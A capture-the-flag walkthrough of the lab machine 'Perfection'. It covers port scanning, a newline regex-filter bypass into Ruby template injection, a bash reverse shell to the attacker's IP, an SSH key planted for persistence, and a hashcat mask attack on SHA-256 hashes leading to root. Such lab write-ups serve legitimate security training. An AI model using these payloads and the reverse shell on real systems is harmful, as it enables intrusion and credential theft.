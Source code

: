 ```yaml
---
title: Perfection
published: true
layout: post
---
```


<br />

---------------
Perfection is an easy Linux machine that features a web application with functionality to calculate student scores. This application is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass. A foothold can be gained by exploiting the SSTI vulnerability. Enumerating the user reveals they are part of the sudo group. Further enumeration uncovers a database with password hashes, and the user&amp;amp;#039;s mail reveals a possible password format. Using a mask attack on the hash, the user&amp;amp;#039;s password is obtained, which is leveraged to gain root access. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/VWSd_V7qtaY?si=rPgEI3iybf_bt-FQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.253 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.253 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```

![](/assets/Perfection/1.png)

<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.253 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Perfection/2.png)

<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp nginx**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.253 -p 22,80 -T4 --min-rate 5000 --script="vuln or intrusive or discovery or *ssh* or *http* or *nginx*" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

I actually found this machine a little bit hard, as I hadn't faced an **Server Side Template Injection (SSTI)** until this machine.

<br />

We can find a website that calculate a weighted grade based on an **input**, in the category textbox I tried to **inject commands**, and I received this output:<br />

![](/assets/Perfection/3.png)

<br />
<br />

I tried to **detect which characters are blocked** using BurpSuite, however none of the characters are useful for escaping to inject commands:<br />

![](/assets/Perfection/4.png)

<br />
<br />

I was stuck, so I searched in the Internet how this kind of filtering works, and I found that most of them work by **filtering only until the end of the line**, so I tried creating a **new line and using a blocked character**:

```bash
tanades%0a|whoami
```

![](/assets/Perfection/5.png)

<br />
<br />

I tried some **SSTI payloads** until I found one that worked, I also **URL encoded** them:

```bash
tanades%0a<%= 7*7 %>
```

![](/assets/Perfection/6.png)

<br />
<br />

Great!! Ruby interpreted it, let's try to **inject a command**:

```bash
tanades%0a<=% `ls /` %>
```

![](/assets/Perfection/7.png)

<br />
<br />

Great!! We can inject OS commands, so let's inject a reverse shell, but first remember to start listening:

```bash
nc -nlvp 4444
tanades%0a<=% `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.5/4444 0>&1'` %>
```

![](/assets/Perfection/8.png)

<br />
<br />

Great!! We have a reverse shell in the machine, before anything, I pasted my **SSH public key in the authorized_keys** of this user to log in using SSH:

```bash
Kali> cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip
Victim> mkdir /home/susan/.ssh
Victim> echo "public_key" >> /home/susan/.ssh/authorized_keys
```

<br />

Now we can log into the victim machine using SSH:

```bash
ssh susan@10.10.11.253
```

![](/assets/Perfection/9.png)

<br />
<br />

Let's print the flag and continue:<br />

![](/assets/Perfection/10.png)

<br />
<br />

------

<br />
### Privilege Escalation

<br />

Escalating privileges in this machine is quite entertaining, is something I haven't done before, but easier than SSTI.

<br />

We can find a few relevant pieces of information in this machine:

- A database with credentials in **/home/user/susan/Migration/pupilpath_credentials.db**.
- A mail in **/var/mail/susan**.
- We are part of the sudo group, however we need susan's password to use sudo.

Let's examine the database contents:

```bash
sqlite3 Migration/pupilpath_credentials.db
.tables
select * from users;
```

![](/assets/Perfection/11.png)

<br />
<br />

We have some hashes, which according to `hashid` is **SHA2-256**, let's continue with the email:

![](/assets/Perfection/12.png)

<br />
<br />

Okay, so we have a hash and a pattern for the password, let's use **hashcat in brute force** mode to crack it:

```bash
hashcat -a 3 -w 3 -m 1400 susan.hash susan_nasus_?d?d?d?d?d?d?d?d?d?d --increment
```

![](/assets/Perfection/13.png)

<br />
<br />

After a long time, we finally **cracked the password**, let's use it to elevate privileges and print the flag:

```bash
sudo su
cat /root/root.txt
```

![](/assets/Perfection/14.png)

<br />
<br />
